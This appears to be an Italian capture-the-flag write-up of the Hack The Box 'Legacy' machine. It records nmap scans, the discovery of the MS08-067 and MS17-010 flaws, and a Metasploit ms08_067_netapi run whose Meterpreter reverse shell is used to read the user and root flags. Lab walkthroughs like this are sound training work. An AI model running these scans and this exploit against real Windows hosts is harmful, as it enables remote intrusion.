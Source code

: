 ```yaml
---
layout: default
---
```


# Legacy (HTB)

Anche a questo giro come primo approccio lancio una scansione TCP SYN sulle porte con <span style="color:#46eac7">nmap</span>, dove cerco di farmi dare anche la versione dei servizi.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sV 10.10.10.4      
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:26 EST
Nmap scan report for 10.10.10.4
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```
\
E come in <a href="{{ site.ctf.blue }}">Blue (HTB)</a> noto la <span style="color:#46eac7">porta 445</span> per il <span style="color:#46eac7">protocollo SMB</span>, in tandem con la 139 per il protocollo NetBIOS. Lancio quindi una nuova scansione utilizzando gli script <span style="color:#46eac7">smb-os-discovery</span> e <span style="color:#46eac7">smb-protocols</span> per ottenere qualche informazione in più.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p 445 --script smb-os-discovery,smb-protocols 10.10.10.4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:27 EST
Nmap scan report for 10.10.10.4
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsof0

Host script results:
| smb-protocols: 
|   dialects: 
|_    NT LM 0.12 (SMBv1) [dangerous, but default]
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-11-29T19:24:57+02:00

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```
\
Memore della macchina precedente provo a lanciare subito <span style="color:#46eac7">nmap</span> per verificare se è in grado di rilevare qualche vulnerabilità con lo script <span style="color:#46eac7">vuln</span>.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p 445 --script vuln 10.10.10.4                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:32 EST
Nmap scan report for 10.10.10.4
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```
\
Individuata la <span style="color:#46eac7">CVE-2008-4250</span>, una ricerca su <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250" target="_blank">Mitre</a> mi redireziona al <a href="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067" target="_blank">Microsoft Security Bulletin MS08-067</a>. Cerco <span style="color:#46eac7">MS08-067</span> su <span style="color:#46eac7">Metasploit</span> per vedere se esite qualche exploit noto, lo trovo e lo lancio.

```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole -q                       
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use  0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/
                                       basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.10.10.4:1032) at 2023-11-24 10:38:33 -0500

meterpreter > pwd
C:\WINDOWS\system32
```
\
Ora che sono dentro al sistema target procedo ad esplorarlo un po'. Trovare le flag di <span style="color:#46eac7">user</span> e <span style="color:#46eac7">root</span> è molto semplice.

```bash
meterpreter > cd \C:\\\

[--SNIP--]

meterpreter > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:19:49 -0400  user.txt

meterpreter > cat user.txt 
********************************

[--SNIP--]

meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
********************************
```